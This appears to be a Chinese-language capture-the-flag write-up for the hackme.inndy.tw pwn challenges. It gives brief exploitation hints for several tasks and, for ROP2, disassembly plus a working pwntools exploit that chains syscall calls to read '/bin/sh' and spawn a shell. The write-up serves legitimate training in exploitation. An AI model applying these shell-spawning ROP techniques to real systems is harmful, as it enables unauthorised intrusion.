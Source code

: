 ```yaml
---
title: Writeup::hackme.inndy.tw
date: 2023-10-17 21:12:04
tags: pwn
---
```


## catflag
用pwntools 送出指令，不要用ncat
## homework
仔細觀察組語，可以發現return address的對應index

利用OOB直接就可以解

## toooomuch
猜數字遊戲，隨便一個二分搜就有答案
<!-- more -->
## toooomuch2
簡單的ROP，先利用 fgets()把shellcode吃到bss之後跳上去

## ROP
利用ROPGadget 就串得出來，也可以用 pop rdi 優化chain

## ROP2
### 保護機制
NX, Partial RELRO
### 程式邏輯
#### main
```asm
┌ 146: int main (int32_t arg_4h);
│           ; var int32_t var_33h @ ebp-0x33
│           ; var int32_t var_2fh @ ebp-0x2f
│           ; var int32_t var_2bh @ ebp-0x2b
│           ; var int32_t var_27h @ ebp-0x27
│           ; var int32_t var_23h @ ebp-0x23
│           ; var int32_t var_1fh @ ebp-0x1f
│           ; var int32_t var_1bh @ ebp-0x1b
│           ; var int32_t var_17h @ ebp-0x17
│           ; var int32_t var_13h @ ebp-0x13
│           ; var int32_t var_fh @ ebp-0xf
│           ; var int32_t var_bh @ ebp-0xb
│           ; var int32_t var_9h @ ebp-0x9
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_4h @ esp+0x54
│           0x08048487      8d4c2404       lea ecx, dword [arg_4h]
│           0x0804848b      83e4f0         and esp, 0xfffffff0
│           0x0804848e      ff71fc         push dword [ecx - 4]
│           0x08048491      55             push ebp
│           0x08048492      89e5           mov ebp, esp
│           0x08048494      51             push ecx
│           0x08048495      83ec34         sub esp, 0x34
│           0x08048498      83ec0c         sub esp, 0xc
│           0x0804849b      6a1e           push 0x1e                   ; 30
│           0x0804849d      e85efeffff     call sym.imp.alarm
│           0x080484a2      83c410         add esp, 0x10
│           0x080484a5      c745cd43616e.  mov dword [var_33h], 0x206e6143 ; 'Can '
│           0x080484ac      c745d1796f75.  mov dword [var_2fh], 0x20756f79 ; 'you '
│           0x080484b3      c745d5736f6c.  mov dword [var_2bh], 0x766c6f73 ; 'solv'
│           0x080484ba      c745d9652074.  mov dword [var_27h], 0x68742065 ; 'e th'
│           0x080484c1      c745dd69733f.  mov dword [var_23h], 0xa3f7369
│           0x080484c8      c745e1476976.  mov dword [var_1fh], 0x65766947 ; 'Give'
│           0x080484cf      c745e5206d65.  mov dword [var_1bh], 0x20656d20 ; ' me '
│           0x080484d6      c745e9796f75.  mov dword [var_17h], 0x72756f79 ; 'your'
│           0x080484dd      c745ed20726f.  mov dword [var_13h], 0x706f7220 ; ' rop'
│           0x080484e4      c745f1636861.  mov dword [var_fh], 0x69616863 ; 'chai'
│           0x080484eb      66c745f56e3a   mov word [var_bh], 0x3a6e   ; 'n:'
│           0x080484f1      c645f700       mov byte [var_9h], 0
│           0x080484f5      6a2a           push 0x2a                   ; '*' ; 42
│           0x080484f7      8d45cd         lea eax, dword [var_33h]
│           0x080484fa      50             push eax
│           0x080484fb      6a01           push 1                      ; 1
│           0x080484fd      6a04           push 4                      ; 4
│           0x080484ff      e81cfeffff     call sym.imp.syscall
│           0x08048504      83c410         add esp, 0x10
│           0x08048507      e848ffffff     call sym.overflow
│           0x0804850c      b800000000     mov eax, 0
│           0x08048511      8b4dfc         mov ecx, dword [var_4h]
│           0x08048514      c9             leave
│           0x08048515      8d61fc         lea esp, dword [ecx - 4]
└           0x08048518      c3             ret
```
跟上一題是差不多的邏輯，但多了`syscall()`

也可以在`overflow()`找到漏洞

### 利用方式
由於有`syscall`, 可以構造任意system call, 而且因為是x86, 所以不用找pop gadget

在binary中找不到`/bin/sh`, 所以可以先構造syscall把`/bin/sh`讀到記憶體中, 再想辦法getshell
#### exploit:
```python
#!/usr/bin/env python2

from pwn import *
import pwnlib.elf

p = remote('hackme.inndy.tw', 7703)
e = ELF('./rop2')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(3) + p32(0)
payload += p32(e.bss()) + p32(8) # syscall(3, 0, Bss, 8)

p.sendline(payload)
p.send('/bin/sh\x00')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(0xb) + p32(e.bss())
payload += p32(0) + p32(0) # syscall(0xb, '/bin/sh', 0, 0)
p.sendline(payload)

p.interactive()
p.close()
```
### echo
用`fmtstr_payload()`把 `printf()` 改成 `system()`
讓程式接著跑，她就會自己跑到`printf(“/bin/sh”)` 了
### smashthestack
有開canary，但是仍可以利用 `__stack_chk_fail` 印出在記憶體中的flag

構造長一點的payload，一路蓋到 `__libc_argv[0]` 就好


